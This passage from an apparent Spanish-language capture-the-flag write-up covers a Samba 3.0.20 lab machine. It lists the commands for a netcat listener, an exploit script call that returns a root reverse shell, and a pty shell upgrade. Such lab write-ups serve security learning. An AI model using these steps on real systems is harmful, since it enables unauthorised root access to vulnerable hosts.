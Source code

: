 >El repositorio tiene un README.md asi que lo miramos y vemos que indica 

- instalar: pip3 install pysmb
- ponerse en escucha : nc -nlvp 4444
- uso de herramienta : python3 smb3.0.20.py -lh 10.10.16.18 -lp 4444 -t 10.10.10.3

pues vamos a ello en la terminal ponemos 

```bash
pip3 install pysmb
```

después nos ponemos en escucha por el puerto deseado en mi caso el 443

```bash
nc -nlvp 443
```

una vez tenemos esto listo utilizamos la herramienta con python3

```bash
python3 smb3.0.20.py -lh 10.10.14.155 -lp 443 -t 10.129.199.205
```

>Revisamos el puerto en escucha y vemos esto

![[Pasted image 20250703215711.png]](lame-imagenes/lame-images/20250703215711.png)

Tenemos una terminal con usuario Root. por lo que la intrusión del exploit ha sido un éxito.

# Tratamos la Shell

>Revisamos si tiene python instalado

```bash
which python
```

>/usr/bin/python

>Después utilizamos el comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
